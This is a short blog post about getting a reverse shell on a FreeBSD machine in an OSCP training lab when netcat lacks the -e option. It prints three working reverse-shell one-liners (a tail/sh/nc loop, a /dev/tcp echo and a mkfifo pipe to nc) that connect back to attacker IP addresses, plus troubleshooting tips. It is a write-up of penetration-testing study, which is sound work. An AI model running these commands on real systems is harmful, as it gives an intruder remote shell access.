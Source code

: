 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:

```bash
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
```

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous 
[/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) 
did not work either. The following command did not result in any response on my machine.

```bash
echo foo > /dev/tcp/10.11.0.13/443
```

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

```bash
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
```

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the _mkfifo pipe_ command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When _uname -a_ gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: _chmod +x_ did not work, _chmod 777_ did the job... (◔_◔)
